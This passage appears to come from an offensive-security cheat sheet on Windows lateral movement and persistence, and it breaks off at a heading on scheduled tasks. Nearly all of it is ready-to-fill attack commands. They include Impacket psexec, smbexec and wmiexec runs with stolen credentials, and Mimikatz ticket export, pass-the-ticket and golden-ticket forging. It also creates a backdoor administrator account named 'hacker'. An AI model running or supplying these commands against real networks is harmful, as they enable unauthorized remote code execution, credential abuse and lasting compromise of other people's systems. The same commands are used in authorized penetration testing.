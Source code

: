 ## 8\. Lateral Movement & Persistence

### PsExec - Remote Code Execution

```bash
psexec.py <domain>/<user>:<password>@<target-IP>  
```

### SMBExec - Executing Commands via SMB

```bash
smbexec.py <domain>/<user>:<password>@<target-IP>  
```

### WMIExec - Executing Commands via WMI

```bash
wmiexec.py <domain>/<user>:<password>@<target-IP>  
```

### Pass-the-Ticket (PTT) Attack

#### **Extracting and Injecting a Kerberos Ticket**

```powershell
sekurlsa::tickets /export  
kerberos::ptt [0;76126]-2-0-40e10000-Administrator@krbtgt-<TARGET>.LOCAL.kirbi  
```

### Golden Ticket Attack

#### **Generating a Golden Ticket in Mimikatz**

```powershell
kerberos::golden /user:Administrator /domain:target.local /sid:S-1-5-21-849420856-235  
```

#### **Verifying Ticket Injection**

```powershell
klist  
dir \\<TARGET>\admin$  
```

* * *

### Windows Persistence Methods

#### **Adding a New Admin User**

```powershell
net user hacker Pass123! /add  
net localgroup Administrators hacker /add  
```

#### **Creating a Persistent Scheduled Task**
